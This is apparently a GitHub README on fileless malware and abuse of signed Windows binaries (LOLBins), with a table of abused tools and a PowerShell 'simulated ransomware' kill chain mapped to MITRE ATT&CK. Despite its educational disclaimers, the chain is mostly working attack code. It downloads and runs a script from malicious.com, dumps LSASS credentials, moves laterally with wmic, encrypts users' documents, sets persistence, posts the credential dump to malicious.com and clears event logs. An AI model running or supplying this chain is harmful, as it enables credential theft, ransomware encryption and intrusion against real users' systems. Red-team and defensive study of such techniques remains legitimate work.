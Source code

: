 

# Overview

## ⚠️ Advisory Warning: Educational Use Only

This repository contains research material on advanced cybersecurity concepts, including NSFW (Not Safe for Work) topics such as **fileless malware**, **LOLBins abuse**, and **adversary simulation chains**.
All content is intended **solely for educational, academic, and controlled research lab environments**.

> **🚫 Do not deploy or reproduce any of the included techniques on unauthorized or production systems. Misuse may violate legal, ethical, and professional standards.**

![Screenshot 2025-05-21 001453](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)


---

## 🧠 Threat Landscape Overview: Fileless Malware & LOLBins

**Fileless malware** operates exclusively in memory, avoiding disk writes to evade antivirus and EDR solutions. Leveraging trusted system binaries, attackers can bypass defenses without dropping a traditional file-based payload. These attacks often chain together native tools, scripts, and in-memory injection, leaving minimal forensic traces.

**LOLBins** (Living Off the Land Binaries) are legitimate Windows binaries repurposed by adversaries for malicious activity. Since they’re signed and trusted, many defenses overlook them. Abuse of LOLBins is a common red team tactic mapped extensively in the [MITRE ATT\&CK](https://attack.mitre.org/) framework.

---

## ⚙️ Common LOLBins and Abuse Patterns

| LOLBin                     | Abused For                | ATT\&CK Tactics                   |
| -------------------------- | ------------------------- | --------------------------------- |
| `rundll32.exe`             | DLL execution             | Code execution, EDR bypass        |
| `mshta.exe`                | Run HTA payloads          | Script execution, sandbox evasion |
| `regsvr32.exe`             | Load COM DLLs             | Fileless execution, C2 proxy      |
| `wmic.exe`                 | Remote command execution  | Process launch, lateral movement  |
| `cmd.exe / powershell.exe` | Script runners            | Payload staging, persistence      |
| `msbuild.exe`              | Inline C# compile/exec    | Fileless malware loading          |
| `certutil.exe`             | Download/decode files     | Exfiltration, staging             |
| `bitsadmin.exe`            | Remote file fetch         | Delivery, task persistence        |
| `schtasks.exe`             | Task scheduling           | Privilege escalation, persistence |
| `esentutl.exe`             | Copy/exec binary payloads | Stealth operations, exfiltration  |

---

## 🧬 Simulated Kill Chain: 100% Fileless Ransomware

*Using [MITRE ATT\&CK](https://attack.mitre.org/) for Technique Mapping*

> ⚠️ **Disclaimer**: This PowerShell sequence is a synthetic simulation created for red team development in secure lab environments. Execution outside of controlled conditions is **strictly prohibited**.

<details>
<summary>🔐 Simulated PowerShell Ransomware Payload Chain</summary>

```powershell
# 🎯 Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 Privilege Escalation (T1548)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 🧪 Credential Access (T1003.001)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 🔍 Discovery (T1082)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select Name, MacAddress, Status
Write-Output $sysInfo; Write-Output $networkInfo

# 🌐 Lateral Movement (T1021.001)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 💣 Impact: File Encryption (T1486)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 📌 Persistence (T1547.001)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1"
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 📤 Exfiltration (T1041)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 🧹 Defense Evasion (T1070)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

</details>

---

## 🧭 Additional Red Team Resources

* 🛠️ [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* 🧬 [LOLGEN – Generate LOLBin Abuse Chains](https://lolgen.hdks.org/)
* 🔍 [MITRE ATT\&CK Entry – S0697](https://attack.mitre.org/software/S0697/)
* 💥 [PrintNightmare Technical Dive](https://itm4n.github.io/printnightmare-not-over/)
* 💀 [Print Spooler Exploit Overview](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)
* 🔗 [DLL Injection Reference](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* 🦠 [Wikipedia: Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
* 🖨️ [Printer Driver Exploit Repo](https://github.com/jacob-baines/concealed_position)

---

## 🛡️ Final Note

This repository is curated for cybersecurity researchers, malware analysts, and red team operators. It is not intended for malicious use or real-world deployment. Always adhere to your country’s cybercrime laws and organizational rules of engagement. Operate responsibly.

